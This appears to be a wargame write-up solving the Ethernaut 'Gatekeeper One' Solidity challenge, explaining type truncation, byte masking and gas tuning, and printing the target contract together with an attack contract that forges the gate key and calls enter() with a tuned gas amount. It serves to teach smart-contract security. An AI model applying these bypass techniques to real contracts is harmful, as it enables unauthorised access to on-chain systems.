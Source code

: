 # Day 13 - Gate Keeper (1)

## Datatype conversions (Gate 2)

Whenever you convert a datapoint with larger storage space into a smaller one, you will lose and corrupt your data.

![Datatype conversion](./images/type-conversion.jpg)

## Byte masking (Gate 3)

```js
bytes4 a = 0xffffffff;
bytes4 mask = 0xf0f0f0f0;
bytes4 result = a & mask ;   // 0xf0f0f0f0
```

## Solution

### Gate 1

Pass Gate 1 by simply letting your contract be the middleman

### Gate 3

Gate 3 takes in an 8 byte key, and has the following requirements:

```js
// uint32 => 4 bytes (max 0xffffffff)
// uint64 => 8 bytes (max 0xffffffffffffffff)
// uint16 => 2 bytes (max 0xffff)
require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)));
require(uint32(uint64(_gateKey)) != uint64(_gateKey));
require(uint32(uint64(_gateKey)) == uint16(tx.origin));
```

### Gate 2

to pass Gate 2’s require(`msg.gas % 8191 == 0`), you have to ensure that your remaining gas is an integer multiple of 8191, at the particular moment when `msg.gas % 8191` is executed in the call stack.

gateTwo requires some trial and error regarding how much gas you should use. The simplest way to do this is to use .call() because you can specify exactly how much gas you want to use. Once you've initiated a failed transaction, play around with the remix debugger. Essentially you want to calculate the total cost of getting to exactly the point prior to the gasleft()%8191 == 0. For me, this is 254 gas so to pass this gate, I just needed to use a gas equivalent to some multiple of 8191 + 254 e.g. 8191 \* 100 + 254 = 819354

Notice GatekeeperOne was compiled with version v0.5.0 with no optimization enabled. Update your Remix settings accordingly.

Create a function which will call enter() and allocate a specified amount of gas. You should invoke enter() with the lower level call function, which gives you more control over gas usage. Allocate some arbitrary amount of gas:

```js
pragma solidity ^0.5.0;

import "SafeMath.sol";

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract AttackGateKeeperOne {
    GatekeeperOne victim;

    constructor(address _victim) public {
        victim = GatekeeperOne(_victim);
    }


    function attack() public {
        bytes8 _gateKey = bytes8(bytes20(msg.sender)) & 0xffffffff0000ffff;
        victim.enter.gas(81910 - 81658 + 81910 + 2)(_gateKey);
    }
}
```

![remix-debug](./images/remix-debug.png)
